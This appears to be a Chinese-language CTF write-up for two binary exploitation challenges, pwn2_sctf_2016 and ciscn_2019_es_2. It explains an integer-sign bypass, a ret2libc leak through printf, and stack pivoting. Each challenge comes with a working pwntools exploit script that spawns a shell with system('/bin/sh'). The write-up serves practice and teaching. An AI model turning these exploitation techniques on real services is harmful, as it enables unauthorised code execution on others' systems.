



- `lib`地址泄露



> vuln()

1. 程序对输入的`v2`做了限制首先要利用整数绕过`if (v2 > 32)`的限制

2. 程序中没有现成的`shell`所以要通过`printf`泄露`lib`手动构造`shell`

   ```python
   from pwn import * 
   context.log_level = 'debug'
   io = process('./pwn2_sctf_2016')
   #io = gdb.debug('./pwn2_sctf_2016','break *vuln')
   elf = ELF('./pwn2_sctf_2016')
   Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
   printf_got = elf.got['printf']
   printf_plt = elf.plt['printf']
   vuln_addr = elf.sym['vuln']
   main_addr = elf.sym['main']
   offset =48
   #1.绕过限制
   io.sendlineafter('How many bytes do you want me to read?',b'-1')
   #2.泄露lib
   payload1 = b'A'*offset+p32(printf_plt)+p32(vuln_addr)+p32(printf_got)
   io.sendlineafter(b'data!\n',payload1)
   io.recvuntil('\n')
   a = io.recv(4)
   printf_addr = u32(a)
   print('lib->',hex(printf_addr))
   #3.构造shell
   baseoffset = printf_addr - Lib.symbols['printf']
   sys_addr = Lib.sym['system']+baseoffset
   shell_addr = baseoffset+next(Lib.search(b'/bin/sh'))
   io.sendlineafter(b'read?',b'-1')
   payload2 = b'A'*offset+p32(sys_addr)+p32(main_addr)+p32(shell_addr)
   io.recvuntil(b'data!\n')
   io.sendline(payload2)
   io.interactive()
   ```

   

# ciscn_2019_es_2



- 栈迁移

1. `read()`存在溢出,但是只有`0x30`个位置不能拿到shell,所以考虑栈迁移
2. 通过泄露参数`s`在栈上的位置,将`payload`写入栈上
3. 迁移栈到参数`s`的位置,运行写入的`payload`拿到shell

```assembly
leaved =>
mov esp,ebp 
pop ebp
#清除栈帧,初始化到执行前的样子
ret =>
pop eip
jmp
#相当于一个无条件转跳
```



> 泄露出`s`在栈上的偏移地址


> 完成栈迁移

```python 
from pwn import *
#context.log_level = 'debug'
io = process('./ciscn_2019_es_2')
#io = gdb.debug('./ciscn_2019_es_2','break *vul')
elf = ELF('./ciscn_2019_es_2')
printf_plt = elf.plt['printf']
printf_got = elf.got['printf']
offset = 0x28
payload1 = b'A'*offset
io.sendafter(b"Welcome, my friend. What's your name?\n",payload1)
io.recvuntil(b'Hello,')
io.recvuntil(b'A'*0x28)
old_ebp = u32(io.recv(4))
s_addr = ebp_addr = old_ebp-0x10-offset
print('old_ebp -> ',hex(old_ebp))
print('s_addr -> ',hex(ebp_addr))
#pause()
payload2 = p32(0)+p32(elf.plt['system'])+p32(0)+p32(s_addr+0x10)+b'/bin/sh\x00' #`\x00`截断
#32位程序中参数在函数的后0x10位置,所以填充p32(0)
payload2 = payload2.ljust(0x28,b'A')
payload2 += p32(s_addr)+p32(0x08048562) #填充满栈空间,用p32(s_addr)+p32(0x08048562)劫持`leave`完成迁移并填充上新的`leave&ret`
io.send(payload2)
io.interactive()
```
